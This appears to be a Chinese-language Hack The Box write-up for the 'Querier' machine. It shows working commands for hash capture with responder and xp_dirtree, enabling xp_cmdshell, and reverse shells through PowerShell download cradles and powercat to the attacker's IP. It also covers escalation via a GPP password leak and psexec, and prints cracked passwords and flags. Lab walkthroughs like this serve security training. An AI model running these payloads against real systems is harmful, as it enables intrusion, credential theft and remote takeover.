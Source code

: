 [TOC]

# Note —— Querirer

> victim: 10.10.10.125
>
> local: 10.10.14.10

## SMB

尝试默认账户和空账户

```bash
smbclient -L 10.10.10.125 -U ''%'' #无法登录
smbclient -L 10.10.10.125 -U 'guest'%''
```

guest登陆后可以看到Reports文件夹，进去看看

```bash
smbclient //10.10.10.125/Reports -U 'guest'%''
> ls
> get "Currency Volume Report.xlsm"
```

打开后看不到内容,xlsm格式说明其存在宏，我们以压缩包打开，在路径`xl\`下存在vba宏代码编译文件

对其进行反编译，使用**olevba**

```bash
sudo pip install -U oletools # 安装oletools分析套件
olevba vbaProject.bin
```

在代码中找到数据库的用户密码信息

- `Uid: reporting`
- `Pwd: PcwTWTHRwryjc$c6`
- `Database: volume`

## Mssql

利用得到的账号登陆，mssql的认证方式有用户认证和windows账号认证两种, 由于reporting账号是windows账号, 因此需要增加参数-windows-auth进行登陆并指定用户域querier/，特殊符号$需要进行转义

```bash
python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py -windows-auth querier/reporting:PcwTWTHRwryjc\$c6@10.10.10.125
```
mssql操作
```mssql
enable_xp_cmdshell --尝试启用shell
```

```
[-] ERROR(QUERIER): Line 105: User does not have permission to perform this action.
[-] ERROR(QUERIER): Line 1: You do not have permission to run the RECONFIGURE statement.
[-] ERROR(QUERIER): Line 62: The configuration option 'xp_cmdshell' does not exist, or it may be an advanced option.
[-] ERROR(QUERIER): Line 1: You do not have permission to run the RECONFIGURE statement.
```

失败

```mssql
select IS_SRVROLEMEMBER ( 'sysadmin' ) --检查是有否SA权限
```

```
0
```

没有，继续搜索

### 窃取HASH——利用smb和xp_dirtree/xp_fileexist

先在本地打开responder(新学到的技术)

> responder 一款嗅探工具，用来窃取连接者的信息
>
> 连接上来的连接都返回回应，告诉对方没错就是我，来窃取NTLMv2哈希

```bash
sudo responder -I tun0
```

在受害机器上执行下方两句之一

```mssql
exec xp_dirtree '\\10.10.14.10\share\file'
exec xp_fileexist '\\10.10.14.10\share\file'
```

捕获到信息，保存至`res/NTLMv2.md`

将HASH复制到文件里，命名为hash，使用john破解

```bash
sudo gzip -d /usr/share/wordlists/rockyou.txt.gz
sudo john hash -w=/usr/share/wordlists/rockyou.txt
```

得到

```
corporate568     (mssql-svc)
```

### 高权限账号登录

```bash
python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py -windows-auth querier/mssql-svc:corporate568@10.10.10.125
```

```mssql
select IS_SRVROLEMEMBER ( 'sysadmin' )
-- 1
enable_xp_cmdshell
--运行成功
xp_cmdshell whoami
xp_cmdshell systeminfo
-- 内容保存到res/systeminfo.md
```

## 使用Powershell脚本获取shell

### 尝试ps payload——失败

本机开启nc监听443端口和文件下载用HTTP

```bash
sudo python3 -m http.server
```

目标上执行命令

```mssql
xp_cmdshell powershell iex(New-Object System.Net.Webclient).DownloadString(\"http://10.10.14.10:8000/reverse.ps1\")
```

被AV杀了.....阿这

### 尝试Powercat base64 payload——失败

本机生成独立payload并base64编码

```powershell
powercat -c 10.10.14.10 -p 443 -e cmd.exe -ge > encodedreverseshell.ps1
```

```mssql
powershell -E <代码见res/systeminfo.md>
```

代码太长，无法执行，先当作文件传过去

```mssql
xp_cmdshell certutil -f -urlcache http://10.10.14.10:8000/encodedreverseshell.ps1 a.bat
```

执行失败，certutil没法用

### 尝试单行ps payload——失败

目标上执行命令

```mssql
xp_cmdshell powershell -c \"$client = New-Object System.Net.Sockets.TCPClient(''10.10.14.10'',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);    $sendback =(iex $data 2>&1 | Out-String );    $sendback2 = $sendback + ''PS '' + (pwd).Path + ''> '';    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);   $stream.Write($sendbyte,0,$sendbyte.Length);    $stream.Flush();}\"
```

木有反应，转义字符太多，太难顶，不折腾了

### 利用powercat直接payload——成功

```bash
xp_cmdshell powershell -noprofile IEX(New-Object System.Net.Webclient).DownloadString(\"http://10.10.14.10:8000/powercat.ps1\");powercat -c 10.10.14.10 -p 443 -e powershell
```

成功了，Powercat，永远的神

得到user.txt

```
c37b41bb669da345bb14de50faab3c16
```

## PRIVILEGE ESCALATION

```bash
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Privesc/PowerUp.ps1
echo Invoke-AllChecks >> PowerUp.ps1
```

on victim

```powershell
iex(new-object net.webclient).downloadstring( "http://10.10.14.10:8000/PowerUp.ps1")
```

结果见`PowerUp.md`

GPP文件泄漏，属于GPP漏洞，一般只在2008没打漏洞的版本上存在

> 参考文章：https://xz.aliyun.com/t/7784
>
> 相关介绍：
>
> If sysadmins attempt to mitigate the GPP vulnerability by deleting the associated GPO, the
> cached groups.xml files will remain on the end points. However, if the GPO containing the GPP
> setting is unlinked from the GPO, the cached groups.xml files will be removed.
>
> GPO：组策略
>
> GPP：组策略选项

得到Administrator的新密码

```
MyUnclesAreMarioAndLuigi!!1!
```

获取系统级Shell

```bash
python3 /usr/share/doc/python3-impacket/examples/psexec.py Administrator:'MyUnclesAreMarioAndLuigi!!1!'@10.10.10.125
```

得到root

```
b19c3794f786a1fdcf205f81497c3592
```

相比`psexec`，`wmiexec`隐蔽性更高，更推荐后者，两者适用环境也相似

`wmiexec`既可以通过账号密码登陆，也可以通过hash

都主要依赖445端口

